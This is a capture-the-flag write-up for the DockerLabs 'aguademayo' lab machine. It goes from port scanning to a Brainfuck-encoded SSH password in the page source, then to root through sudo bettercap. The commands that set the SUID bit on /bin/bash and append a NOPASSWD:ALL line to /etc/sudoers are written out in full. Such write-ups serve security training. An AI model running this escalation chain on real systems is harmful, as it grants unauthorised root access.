

# aguademayo

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| aguademayo | The Hackers Labs | easy/facil | dockerlabs |

**Summary:** The aguademayo machine was a creative challenge combining a Brainfuck-encoded credential hidden in the Apache default page HTML source, SSH access as `agua`, and a privilege escalation chain through `bettercap`'s interactive shell to set the SUID bit on `/bin/bash`, followed by running a sudoers injection script via the privileged bash to achieve root. The web page source contained an HTML comment with a Brainfuck program. Decoding it produced the credential `agua:bebeaguaqueessano`. SSH access was established as `agua`, who was a member of the `lxd` group and had an Alpine Linux container image in the home directory. A `sudo -l` check revealed passwordless access to `/usr/bin/bettercap` as root. Launching `bettercap` provided an interactive network toolkit prompt that allowed arbitrary shell command execution via the `!` prefix. The command `!chmod u+s /bin/bash` was issued, setting the SUID bit on `/bin/bash`. After exiting bettercap, a sudoers injection script was written to `/tmp/addsudo.sh`. Running `/bin/bash -p` launched a privileged bash shell with `euid=0`, and `bash -p /tmp/addsudo.sh` executed the script as root, appending `agua ALL=(ALL:ALL) NOPASSWD:ALL` to `/etc/sudoers`. A subsequent `sudo -i` completed the escalation to a clean root shell.

---

## Reconnaissance

**1. Machine Deployment**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/aguademayo]
└─$ sudo bash auto_deploy.sh aguademayo.tar 

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/aguademayo]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-05 14:48 +0700
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: B6:4A:85:89:34:84 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```

The scan revealed SSH on port 22 and Apache on port 80 serving the default Debian page.

---

## Initial Access

### Brainfuck Credential in Page Source

**3. Inspecting the Web Page Source**

Curling the default Apache page returned the standard HTML but with an HTML comment block at the bottom containing a Brainfuck program.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/aguademayo]
└─$ curl -s "http://$ip"

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
....
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----.>---.>.>+.>+++.>.
-->
```



**4. Gobuster Directory Enumeration**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/aguademayo]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/Dir
Buster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster
-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              env,css,png,zip,tar,bak,js,txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
index.html           (Status: 200) [Size: 11142]
server-status        (Status: 403) [Size: 275]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

**5. Decoding the Brainfuck Program**

The Brainfuck program was decoded to obtain the SSH credential.


The decoded output was `agua:bebeaguaqueessano`.

### SSH Access as agua

**6. Logging in via SSH**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/aguademayo]
└─$ ssh agua@$ip
agua@172.17.0.2's password: 
Linux 8317f1195477 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 14 17:41:58 2024 from 172.17.0.1
agua@8317f1195477:~$ id;whoami
uid=1000(agua) gid=1000(agua) groups=1000(agua),104(lxd)
agua
agua@8317f1195477:~$ ls -la
total 3212
drwxr-xr-x 1 agua agua    4096 May 14  2024 .
drwxr-xr-x 1 root root    4096 May 14  2024 ..
-rw------- 1 agua agua     568 May 14  2024 .bash_history
-rw-r--r-- 1 agua agua     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 agua agua    3526 Apr 23  2023 .bashrc
drwxr-x--- 3 agua agua    4096 May 14  2024 .config
-rw-r--r-- 1 agua agua     807 Apr 23  2023 .profile
-rw-r--r-- 1 agua agua 3259593 May 14  2024 alpine-v3.13-x86_64-20210218_0139.tar.gz
```

`agua` was a member of the `lxd` group and had an Alpine container image in the home directory — noted for possible LXD container escalation. A `sudo -l` check was performed first.

---

## Privilege Escalation

### bettercap Shell Command to SUID /bin/bash, then Sudoers Injection

**7. Checking sudo Permissions**

```bash
agua@8317f1195477:~$ sudo -l
Matching Defaults entries for agua on 8317f1195477:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 8317f1195477:
    (root) NOPASSWD: /usr/bin/bettercap
```

`agua` could run `bettercap` as root without a password. The `bettercap` interactive shell accepts commands prefixed with `!` to execute arbitrary system commands.

**8. Setting the SUID Bit on /bin/bash via bettercap**

```bash
agua@8317f1195477:~$ sudo /usr/bin/bettercap
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [08:10:34] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  » !chmod u+s /bin/bash

172.17.0.0/16 > 172.17.0.2  » exit
open /proc/sys/net/ipv4/ip_forward: read-only file system
agua@8317f1195477:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```

The `!chmod u+s /bin/bash` command executed as root through the bettercap prompt. After exiting, `/bin/bash` confirmed the SUID bit was set.

**9. Writing the Sudoers Injection Script**

A script was written to `/tmp/addsudo.sh` that appended a full NOPASSWD sudoers rule for `agua`.

```bash
agua@7ab6a873c03c:~$ cat > /tmp/addsudo.sh << 'EOF'
> #!/bin/bash
> echo "agua ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
> EOF
agua@7ab6a873c03c:~$ chmod +x /tmp/addsudo.sh 
```

**10. Running the Script via SUID bash and Escalating**

```bash
agua@7ab6a873c03c:~$ /bin/bash -p
bash-5.2# bash -p /tmp/addsudo.sh
bash-5.2# sudo -l
Matching Defaults entries for agua on 7ab6a873c03c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 7ab6a873c03c:
    (root) NOPASSWD: /usr/bin/bettercap
    (ALL : ALL) NOPASSWD: ALL
bash-5.2# sudo -i
root@7ab6a873c03c:~# id;whoami
uid=0(root) gid=0(root) groups=0(root)
root
```

`/bin/bash -p` launched bash in privileged mode inheriting the SUID root effective UID. Running `bash -p /tmp/addsudo.sh` executed the sudoers injection script with root privileges. A subsequent `sudo -l` confirmed the new unrestricted entry and `sudo -i` produced a clean root shell.

---

## Attack Chain Summary
1. **Reconnaissance**: Nmap identified SSH on port 22 and Apache on port 80 serving the default Debian page. Curling the page source revealed an HTML comment containing a Brainfuck program.
2. **Credential Discovery**: The Brainfuck program was decoded to yield `agua:bebeaguaqueessano`. SSH access was established as `agua`, a member of the `lxd` group with an Alpine container image in the home directory.
3. **sudo bettercap**: A `sudo -l` check revealed passwordless access to `/usr/bin/bettercap` as root. Launching bettercap and issuing `!chmod u+s /bin/bash` via its interactive shell set the SUID bit on `/bin/bash`, confirmed with `ls -la` after exiting.
4. **Sudoers Injection**: A script at `/tmp/addsudo.sh` was written to append `agua ALL=(ALL:ALL) NOPASSWD:ALL` to `/etc/sudoers`. Running `/bin/bash -p` launched a privileged bash shell with effective UID 0. Executing `bash -p /tmp/addsudo.sh` ran the injection as root.
5. **Privilege Escalation**: `sudo -l` confirmed the new unrestricted NOPASSWD entry. `sudo -i` produced a clean root shell.
